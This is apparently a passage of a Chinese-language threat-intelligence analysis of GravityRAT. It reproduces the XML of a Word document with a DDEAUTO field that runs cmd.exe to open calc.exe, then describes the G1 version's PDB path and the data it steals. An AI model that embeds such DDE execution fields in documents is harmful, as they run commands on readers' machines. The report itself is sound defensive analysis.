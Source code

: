 ```
&lt;?xml version="1.0" encoding="UTF-8" standalone="yes"?&gt;

&lt;w:document [...redated...`}`] mc:Ignorable="w14 w15 wp14"&gt;&lt;w:body&gt;&lt;w:p w:rsidR="00215C91" w:rsidRDefault="008C166A"&gt;&lt;w:r&gt;&lt;w:fldChar w:fldCharType="begin"/&gt;&lt;/w:r&gt;&lt;w:r&gt;&lt;w:instrText xml:space="preserve"&gt; &lt;/w:instrText&gt;&lt;/w:r&gt;&lt;w:r&gt;&lt;w:rPr&gt;&lt;w:rFonts w:ascii="Helvetica" w:hAnsi="Helvetica" w:cs="Helvetica"/&gt;&lt;w:color w:val="383838"/&gt;&lt;w:spacing w:val="3"/&gt;&lt;w:sz w:val="26"/&gt;&lt;w:szCs w:val="26"/&gt;&lt;w:shd w:val="clear" w:color="auto" w:fill="FFFFFF"/&gt;&lt;/w:rPr&gt;&lt;w:instrText&gt;DDEAUTO c:\windows\system32\cmd.exe "/k calc.exe"&lt;/w:instrText&gt;&lt;/w:r&gt;&lt;w:r&gt;&lt;w:instrText xml:space="preserve"&gt; &lt;/w:instrText&gt;&lt;/w:r&gt;&lt;w:r&gt;&lt;w:fldChar w:fldCharType="end"/&gt;&lt;/w:r&gt;&lt;w:bookmarkStart w:id="0" w:name="_GoBack"/&gt;&lt;w:bookmarkEnd w:id="0"/&gt;&lt;/w:p&gt;&lt;w:sectPr w:rsidR="00215C91"&gt;&lt;w:pgSz w:w="12240" w:h="15840"/&gt;&lt;w:pgMar w:top="1440" w:right="1440" w:bottom="1440" w:left="1440" w:header="720" w:footer="720" w:gutter="0"/&gt;&lt;w:cols w:space="720"/&gt;&lt;w:docGrid w:linePitch="360"/&gt;&lt;/w:sectPr&gt;&lt;/w:body&gt;&lt;/w:document&gt;
```

根据文件名，我们认为已提交的这些样本应当都是测试文档，攻击者使用不同的方法和Office技巧以确保恶意软件不被检测出来。这些文件名如下所示：

```
testnew1.docx
Test123.docx
test456.docx
test2.docx
book1test2.xlsx
Test123.doc
```



## 三、GRAVITYRAT

最开始我们通过一个恶意Word文档发现了GravityRAT的踪影。前面提到过，这个Word文档包含各种宏用来传递最终载荷。考虑到这是恶意软件的最新版本，因此我们想进一步确定这个攻击者的活跃时长以及攻击活动的演变历史。我们发现GravityRAT在两年时间内衍生出了4个不同的版本。接下来，我们将详细分析这个开发者的研发生命周期以及恶意功能的添加过程。

### <a class="reference-link" name="G1%E7%89%88%E6%9C%AC"></a>G1版本

恶意软件开发者以`G`字母为开头来控制软件版本。我们识别出的最早的一个版本为G1版本。该样本的PDB路径如下所示：

```
f:FWindows WorkG1Adeel's LaptopG1 Main VirussystemInterruptsgravityobjx86DebugsystemInterrupts.pdb
```

你会发现上面有个名字：Adeel，这可能是开发者的名字。当然，这个信息可能被恶意软件作者篡改过。这个样本的编译时间为2016年12月，原始的文件名为`resume.exe`。

该版本的目的是窃取受影响系统上的信息，包含如下信息：

```
MAC地址
计算机名
用户名
IP地址
日期
窃取以.docx、.doc、.pptx、.ppt、.xlsx、 .xls、.rtf以及.pdf为后缀名的文件
映射到系统上的磁盘卷信息
```
